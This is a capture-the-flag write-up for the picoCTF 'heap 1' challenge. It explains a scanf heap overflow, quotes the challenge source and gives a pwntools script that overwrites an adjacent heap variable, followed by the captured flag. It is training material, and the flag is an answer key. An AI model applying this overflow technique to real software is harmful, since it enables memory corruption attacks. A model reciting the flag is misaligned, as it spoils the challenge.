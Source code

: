 # heap 1

Can you control your overflow? Download the binary [here](https://artifacts.picoctf.net/c_tethys/3/chall). Download the source [here](https://artifacts.picoctf.net/c_tethys/3/chall.c).

As with heap 0, there are still 32 bytes between the `safe_var` and `input_data`:

```
0x558e867ed6b0  ->   pico
0x558e867ed6d0  ->   bico
```

Similarly, `scanf()` is still being used within `write_buffer()` meaning we can still overwrite into other memory locations.

```c
void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}
```

In this instance, the `check_win()` function will print the flag if `safe_var` is set to value `pico`:

```c
void check_win() {
    if (!strcmp(safe_var, "pico")) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}
```

As such, we can run:

```python
from pwn import *

context.binary = binary = ELF("chal")

p = remote("tethys.picoctf.net", 65235)

p.sendline(b"2")

p.sendline(b"A" * 32 + b'pico')

p.sendline(b"4")

p.interactive()
```

```
picoCTF{starting_to_get_the_hang_c588b8a1}
```